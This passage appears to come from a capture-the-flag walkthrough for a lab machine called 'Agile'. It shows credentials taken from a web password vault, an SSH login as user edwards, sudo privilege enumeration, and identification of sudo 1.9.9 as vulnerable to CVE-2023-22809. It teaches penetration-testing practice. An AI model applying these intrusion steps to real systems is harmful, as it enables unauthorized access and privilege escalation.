 clic "inspect" to see the target

![[Pasted image 20230712124130.png]]

The session is already open, so we van clic on "Vault" to see its content :

![[Pasted image 20230712124218.png]]

We have a few credentials here :

- Agile : edwards:d07867c6267dcb5df0af
- Twitter : dedwards__:7dbfe676b6b564ce5718

We can now open a SSH session with account edwards :

```bash
ssh edwards@superpass.htb
```

`d07867c6267dcb5df0af`

Let's enumerate this user :

```bash
sudo -l
```

```text
Matching Defaults entries for edwards on agile:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin, use_pty

User edwards may run the following commands on agile:
    (dev_admin : dev_admin) sudoedit /app/config_test.json
    (dev_admin : dev_admin) sudoedit /app/app-testing/tests/functional/creds.txt
```

We can use sudoedit to perform actions impersonated as dev_admin as :

```bash
sudoedit -u dev_admin /app/config_test.json
```

We can check the version of sudoedit :

```bash
sudoedit --version
```

```text
Sudo version 1.9.9
Sudoers policy plugin version 1.9.9
Sudoers file grammar version 48
Sudoers I/O plugin version 1.9.9
Sudoers audit plugin version 1.9.9
```

This version seems vulnerable : CVE-2023-22809 : https://www.synacktiv.com/sites/default/files/2023-01/sudo-CVE-2023-22809.pdf
